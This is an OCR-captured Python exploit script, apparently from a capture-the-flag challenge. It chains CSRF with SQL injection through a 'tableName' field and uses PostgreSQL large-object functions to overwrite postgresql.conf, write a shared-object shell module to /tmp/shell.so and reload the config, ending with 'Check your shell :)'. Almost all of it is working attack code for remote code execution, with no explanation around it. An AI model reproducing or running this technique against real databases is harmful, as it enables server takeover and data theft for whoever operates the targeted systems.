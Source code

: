 ```python
def exploit():
    try:
        # write config file
        print("Writing config file")
        with open('postgresql.conf', 'rb') as f:
            conf = f.read().hex()
            conf = bytes.fromhex(conf)
            conf = base64.b64encode(conf).decode()
            csrf({"tableName": f"users\" union select 1,'a',(SELECT lo_from_bytea(133337, decode('{conf}', 'base64')))::text-- -"})
            time.sleep(12) # wait the bot to finish
            csrf({"tableName": f"users\" union select 1,'a',(SELECT lo_export(133337, '/var/lib/postgresql/data/postgresql.conf'))::text-- -"})
            time.sleep(12)

        # write shell module
        print("Writing shell module")
        id = 133338
        for i in range(0, 14336, 2048):
            chunk_file = f"shell_chunks/base64_{i}"
            with open(chunk_file, "rb") as f:
                shell = f.read().decode()
                if i == 0:
                    csrf({"tableName": f"users\" union select 1,'a',(SELECT lo_from_bytea({id}, decode('{shell}', 'base64')))::text-- -"})
                else:
                    csrf({"tableName": f"users\" union select 1,'a',(SELECT lo_put({id}, {i}, decode('{shell}', 'base64')))::text-- -"})
            time.sleep(12)

        csrf({"tableName": f"users\" union select 1,'a',(SELECT lo_export({id}, '/tmp/shell.so'))::text-- -"})
        time.sleep(12)
        # reload the config
        print("Reloading the config")
        csrf({"tableName": f"users\" union select 1,'a',(SELECT pg_reload_conf())::text-- -"})

        # get the shell
        time.sleep(12)
        session.get(f"{url}/submissions")
        print("Check your shell :)")

    except Exception as e:
        print(e)

if __name__ == "__main__":
    register()
    login()
    place_bid()
    print("Logged in, exploit started")
    exploit()
```
